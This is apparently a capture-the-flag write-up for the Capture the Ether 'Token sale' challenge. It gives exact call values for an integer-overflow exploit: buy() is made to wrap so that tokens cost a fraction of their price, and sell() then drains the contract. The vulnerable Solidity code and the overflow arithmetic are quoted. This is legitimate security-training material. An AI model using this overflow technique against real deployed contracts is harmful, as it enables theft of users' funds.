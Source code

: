 # Token sale
https://capturetheether.com/challenges/math/token-sale/


1. Call the function "buy" with the argument (115792089237316195423570985008687907853269984665640564039458) and msg.value == 415992086870360064 wei (!).*
2. Call the function "sell" with the argument (1).
3. Contract balance will be 0.415992086870360064 Ether but that's enough to complete the challenge.  
!You may repeat step №1 four more times and repeat step №2 with argument (2) to make contract balance 0.07996043435180032 Ether.

*Сalculations:

numTokens - ?
msg.value - ?

uint256 constant PRICE_PER_TOKEN = 1 ether;

function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
}

uint256 max value = 115792089237316195423570985008687907853269984665640564039457584007913129639935
1 ether == 1000000000000000000 wei (10^18)

msg.value == numTokens * PRICE_PER_TOKEN

to cause overflow:
numTokens = (uint256 max value)/10^18 + 1
numTokens = 115792089237316195423570985008687907853269984665640564039458

msg.value = numTokens * 10^18 - (uint256 max value) - 1 
msg.value = 415992086870360064 wei (!)
